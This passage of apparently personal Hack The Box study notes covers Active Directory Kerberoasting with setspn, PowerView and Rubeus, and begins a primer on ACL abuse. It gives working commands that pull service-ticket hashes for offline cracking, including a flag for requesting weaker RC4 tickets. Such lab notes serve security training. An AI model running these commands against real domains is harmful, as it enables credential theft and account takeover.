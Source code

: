 🤖 \*\*Automated / Tool Based Route\*\*

* `setspn.exe -Q */*` → list available spns

## **Using PowerView**

* `PS C:\htb> Import-Module .\PowerView.ps1` → importing powerview
* `PS C:\htb> Get-DomainUser * -spn | select samaccountname` → getting spn account
* `PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat` → Targeting Specific User
* `PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation` → Exporting All tickets to csv file

## **Using Rubeus**

Rubeus doesnot need us to explicitly set the SPN or the user.

* `PS C:\htb> .\Rubeus.exe kerberoast /stats` → get the stats
*   `PS C:\htb> .\Rubeus.exe kerberoast`

    we can add flag `/nowrap` so that hash will not be wrapped in any form so it will be easier to crack using hashcat.

    also we can use `/outfile:filename` to save the ticket, instead of displaying it.
* `PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap` → for specific user.

we can use `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket.

RC4 is easier to crack compared to AES 256 and128

## An ACE in the Hole

Access Control List (ACL) Abuse Primer

ACL are list that defines

* Who has access to which asset/resources
* the level of access they are provisioned.

The settings themselves in an ACL are called `Access Control Entries` (`ACEs`)

![Untitled](<../.gitbook/assets/ACTIVE DIRECTORY Enum & Attacks 4af4b148af5740d1a6a92a3c741df505/Untitled 3.png>)
